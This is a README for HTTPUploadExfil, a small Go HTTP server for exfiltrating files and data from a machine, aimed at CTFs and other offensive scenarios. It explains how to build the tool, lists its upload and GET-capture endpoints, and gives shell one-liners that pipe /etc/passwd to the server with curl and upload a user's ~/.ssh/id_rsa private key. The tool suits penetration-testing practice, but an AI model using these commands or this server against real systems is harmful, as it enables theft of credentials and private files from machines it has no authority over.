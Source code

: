 # HTTPUploadExfil

`HTTPUploadExfil` is a (very) simple HTTP server written in Go that's useful for getting files (and other information) off a machine using HTTP. While there are many use-cases, it's meant to be used in **low-stakes offensive scenarios** (e.g., CTFs).

Think of this as `python3 -m http.server` but for getting data off a machine instead of on the machine.

Obviously, this is a **very loud** and **somewhat restricted** way of exfiltrating data. Nevertheless, it's quite handy and somewhat easier than, for example, using SMB or FTP.

**TL;DR**

1) Build the tool using `go build`.
2) Run `./httpuploadexfil :1337 /home/kali/loot` on your machine.
3) Access `http://YOUR_IP:1337/` on the machine you need to exfiltrate data from.
4) Find your uploaded files in `/home/kali/loot`.

## Building

It's trivial to build this tool. 

Simply run `go build` within the folder, and you should get an `httpuploadexfil` executable for your platform.

## Usage

The most common use case would be to run the server on *Machine A*. Now, on *Machine B* you access the upload form using a browser and select a file to exfiltrate. Of course, as you can see below, this can also be done using, for example, `curl`.

Aside from uploading files, you can also use `HTTPUploadExfil` to exfiltrate data using simple GET requests. If a request is sent to the `\g` endpoint, the whole request will be stored to disk.

Hence, you can exfiltrate data using the header of the request. It's easiest to use GET parameters (e.g., `?data=...`), but there are other options.

![HTTPUploadExfil](https://github.com/IngoKl/HTTPUploadExfil/blob/main/media/example-1.png?raw=true)

By default, `HTTPUploadExfil` will be served on port 8080. All files will be written to the current directory.

`./httpuploadexfil`

You can also provide some arguments:

`./httpuploadexfil :1337 /home/kali/loot`

The first argument is a bind address, the second one the folder to store files in.

### Endpoints

The webserver exposes three endpoints for you to use:

1) `/` (GET) is the upload form.
2) `/p` (POST) takes the data from the upload form. It requires a `multipart/form-data` request with the `file` field filled.
3) `/g` (GET) will take any GET request and store the full request on the server.

### Shell

Using `Bash`, we can exfil data using GET via, for example:

``echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g``

Of course, we can also use `curl` to exfil files:

`curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p`

## ToDo

* Implement an HTTPs version (Transport Encryption)
